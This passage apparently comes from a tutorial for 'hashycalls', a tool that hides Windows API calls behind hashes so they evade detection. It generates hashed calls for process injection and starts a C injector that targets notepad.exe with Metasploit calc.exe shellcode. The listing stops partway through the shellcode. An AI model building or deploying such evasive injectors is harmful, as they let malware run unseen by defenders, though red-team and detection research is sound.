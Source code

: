 ```
hashycalls --apicalls CreateToolhelp32Snapshot, Process32FirstW, Process32NextW, wcscmp, OpenProcess, VirtualAllocEx, VirtualProtectEx, WriteProcessMemory, CreateRemoteThread, WaitForSingleObject, CloseHandle --quiet --debug --globals
```

This command will suppress the configuration output (--quiet), enable debugging statemtents (--debug) and enable global access to the hashed api (--globals).

![generating api calls](../../img/generating-api-calls.png)

## Step 2; Writing the injector with the template

Now we're ready to convert the injector with the hashycalls template. Accessing the function calls can be done in one of two ways. The intended way is with the **EXEC** macro. This macro accepts two arguments, the module & corresponding function call -> **EXEC( Kernel32, OpenProcess )**. Alternatively, you can access the function in the structure itself directly using syntax **API_VAR_NAME->Module.Function**. The default api variable name is **hWin32**. To run OpenProcess, the syntax would be **hWin32->Kernel32.OpenProcess**. For reference, the **EXEC** macro is just a macro for the latter.

###### Invoking hashed OpenProcess function call example 
| Method | Example |
| - | - |
| Macro | EXEC( Kernel32, OpenProcess ) ( PROCESS_ALL_ACCESS, FALSE, Process.th32ProcessID );
| Direct Invocation | hWin32->Kernel32.OpenProcess( PROCESS_ALL_ACCESS, FALSE, Process.th32ProcessID );

At this time, developers will need to manually adjust their current source code to include this syntax. In the future, hashycalls may have a feature to overwrite targeted functions with the correct syntax for execution.

###### injector-hashed.c
```c
# include <windows.h>
# include <tlhelp32.h>
# include "hashycalls.h"

# define TARGET_PROCESS L"notepad.exe"

int main()
{
    /* msf calc.exe */
	char shellcode[] = {
		0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51,
		0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 0x8b, 0x52,
		0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
		0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0xe2, 0xed,
		0x52, 0x41, 0x51, 0x48, 0x8b, 0x52, 0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88,
		0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44,
		0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34, 0x88, 0x48,
		0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1,
		0x38, 0xe0, 0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd8, 0x58, 0x44,
		0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49,
```